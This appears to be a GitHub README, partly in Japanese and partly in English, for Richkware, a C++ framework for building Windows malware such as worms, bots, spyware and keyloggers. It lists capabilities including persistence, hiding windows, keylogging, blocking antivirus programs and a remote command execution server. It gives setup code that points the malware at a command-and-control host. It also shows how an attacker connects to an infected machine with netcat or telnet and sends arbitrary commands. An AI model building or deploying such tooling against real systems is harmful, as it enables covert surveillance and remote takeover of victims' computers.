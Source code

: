 # Richkware

[![Build status](https://ci.appveyor.com/api/projects/status/1tn6vedeaq0v27ra?svg=true)](https://ci.appveyor.com/project/richkmeli/richkware)
[![Codacy Badge](https://api.codacy.com/project/badge/Grade/e6b4a003d5e7404c80225391bfe34f45)](https://app.codacy.com/app/richkmeli/Richkware?utm_source=github.com&utm_medium=referral&utm_content=richkmeli/Richkware&utm_campaign=Badge_Grade_Dashboard)

C++製のWindows向けマルウェア構築のためのフレームワーク。

## 概要

Richkwareは、マルウェアを作成するために役立つライブラリです。
これらの関数を組み合わせることで、以下のようなマルウェアを想定した挙動をすることができます。

- ウイルス
- ワーム
- ボット
- スパイウェア
- キーロガー
- スケアウェア

## 関連プロジェクト

[Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server): Richkwareを使用して開発されたマルウェアのサンプルが存在するホストを管理するためのサービスです。

[Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client): Richkware-Manager-Serverのクライアントで、サーバーから全ホストのリストを取得し、それらにあらゆる種類のコマンドを送信することができるようになります。

![](https://raw.githubusercontent.com/richkmeli/richkmeli.github.io/master/Richkware/Diagram/RichkwareDiagram1.2.png)

## ドキュメント

|              | 英語                          | イタリア語                     |
|--------------|:------------------------------:|:------------------:|
| 説明 | [PDF](https://github.com/richkmeli/Richkware/blob/master/doc/EN/Slide.pdf)  | [PDF](https://github.com/richkmeli/Richkware/blob/master/doc/IT/Slide.pdf)     |
| 情報       | [PDF](https://github.com/richkmeli/Richkware/blob/master/doc/EN/Report.pdf) | [PDF](https://github.com/richkmeli/Richkware/blob/master/doc/IT/Relazione.pdf) |

## 関数

### ネットワーク

- **サーバー** (*network.h*): マルチスレッドサーバを管理するためのモジュールで、特定のプロトコルにしたがってインターネット([Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client) かコンソールを使用) からコマンドを受信できるようにするものです。
    - **プロトコル** (*protocol.h*):
        1. **リモートでのコマンド実行** (ID 1)
        2. (仕掛品)
- **ネットワーク** (*network.h*):
    - **ローリクエスト**: サーバーにリクエストを送信します。
    - **UploadInfoToRichkwareManagerServer**: send information to [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)

### System

- **Storage** (*storage.h*):
    - **SaveSession** and **LoadSession**: save the application state(encrypted) to:
        - **Register** (SaveValueReg and LoadValueReg)
        - **File** (SaveValueToFile and LoadValueFromFile)
    - **Persistence**: install itself permanently in the system.
- **IsAdmin** and **RequestAdminPrivileges** (*richkware.h*): check and require administrator privileges;

- **StealthWindow** (*richkware.h*): hide applications;
- **OpenApp** (*richkware.h*): open arbitrary applications;
- **Keylogger** (*richkware.h*): stores in a file all pressed keys;
 - **BlockApps** e **UnBlockApps** (*blockApps.h*): block and unblock applications (antivirus, ...).

### Cryptography

- **Encrypt and Decrypt** (*crypto.h*): [RC4](https://en.wikipedia.org/wiki/RC4) (default), [Blowfish](https://en.wikipedia.org/wiki/Blowfish_(cipher)).
- **Encode and Decode** (*crypto.h*): [Base64](https://en.wikipedia.org/wiki/Base64) (defualt), [Hex](https://en.wikipedia.org/wiki/Hexadecimal#Transfer_encoding).

![](https://raw.githubusercontent.com/richkmeli/richkmeli.github.io/master/Richkware/Diagram/RichkwareCryptographyDiagram1.1.png)

### Other

- **RandMouse** (*richkware.h*): move randomly the mouse cursor;
- **Hibernation** (*richkware.h*): hibernate system.

## Requirements
These are the base requirements to build and use Richkware:

- Make or CMake
- [MinGW](http://www.mingw.org/)

## Get Started
Open main.cpp, and create an instance of Richkware.
### With [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)
If you have deployed [RMS](https://github.com/richkmeli/Richkware-Manager-Server), you can initialize the malware as follows:

        int main() {
               Richkware richkware("Richk","DefaultPassword","192.168.99.100", "8080", "associatedUser");
                ...
                return 0;
            }
        
that it gets a secure key from Richkware-Manager-Server and it sets the key as encryption key.
**DefaultPass** is used as temporary encryption key to ensure a secure communication with RMS and if the malware cannot reach the RMS for getting its encryption ket, it will use DefaultPass as encryption key.


### Without [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)

Otherwise, if you haven't deployed [RMS](https://github.com/richkmeli/Richkware-Manager-Server), you can use: 
         
     Richkware richkware("Richk","richktest");
         
 in this way, it uses "richktest" as encryption key.
     


## Compile

After **main.cpp** implementation, you can compile as follows.

### Using MinGW for Windows or MinGW cross compiler for Linux build environment

	make

### Using Microsoft C++ compiler (Visual Studio)
- C/C++ > Preprocessor > Preprocessor Definitions, add "\_CRT\_SECURE\_NO\_WARNINGS" 
- Linker > Input > Additional Dependencies, add "Ws2_32.lib"

## Examples of usage
In the following example, we call "**server**", a malware developed using Richkware framework and in which it has been enabled the function for creating a server, and "**client**", the creator(Hacker) of the malware that is trying to establish a connection with the infected PC.

### Server-side

#### Remotely Command Execution

Call framework function **StartServer** in the main, it starts server on a port, in the following example is the TCP port 8000. Remember that if a port is already used by another program, you can't use that port, until the program will be stopped.

	int main () {
	    ...
		richkware.network.server.Start("8000");
        ...
	}

### Client-side

#### Connect using [Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client)
In all systems where the Java Virtual Machine is installed, you can use [Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client), otherwise if it's not present you can easily use a terminal.

#### Connect using terminal in Unix systems

In Unix systems, you can use **netcat**, and run the following command:

	nc <serverName> 8000
	
if the server received the request on the open port and it succeeds to create a connection, it responses to the client confirming the establishment of the connection, after that, you can write:
    
    [[1]]COMMAND
    
where *COMMAND* is a command that has to be executed on the infected host where server is running.

#### Connect using terminal in Windows

In Windows, you can use **telnet**, in the same way:

	telnet <serverName> 8000

...
    
    [[1]]COMMAND
    

